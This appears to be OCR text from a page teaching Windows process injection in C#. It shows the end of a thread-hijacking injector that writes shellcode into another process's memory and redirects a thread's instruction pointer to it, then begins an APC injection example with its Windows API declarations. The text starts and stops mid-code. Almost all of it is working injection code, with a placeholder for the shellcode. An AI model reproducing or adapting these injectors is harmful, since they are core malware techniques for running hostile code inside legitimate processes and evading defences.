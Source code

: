 ```csharp
        byte[] shellcode = new byte[] { /* Your shellcode here */ };

        IntPtr hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, targetProcessId);
        IntPtr allocMemAddress = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, allocMemAddress, shellcode, (uint)shellcode.Length, out bytesWritten);

        Process targetProcess = Process.GetProcessById(targetProcessId);
        foreach (ProcessThread thread in targetProcess.Threads)
        {
            IntPtr hThread = OpenThread(THREAD_ALL_ACCESS, false, (uint)thread.Id);

            SuspendThread(hThread);

            CONTEXT ctx = new CONTEXT();
            ctx.ContextFlags = CONTEXT_FULL;
            GetThreadContext(hThread, ref ctx);

            ctx.Rip = (ulong)allocMemAddress;

            SetThreadContext(hThread, ref ctx);

            ResumeThread(hThread);
            break; // Injecting into the first thread found
        }
    }
}
```

### 2. APC Injection

APC (Asynchronous Procedure Call) injection queues an APC to a thread in the target process. When the thread enters an alertable state, it will execute the APC.

#### Code Example in C#
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll")]
    static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll")]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

    [DllImport("kernel32.dll")]
    static extern IntPtr OpenThread(uint dwDesiredAccess, bool bInheritHandle, uint dwThreadId);

    [DllImport("kernel32.dll")]
    static extern uint QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

    const uint PROCESS_ALL_ACCESS = 0x1F0FFF;
```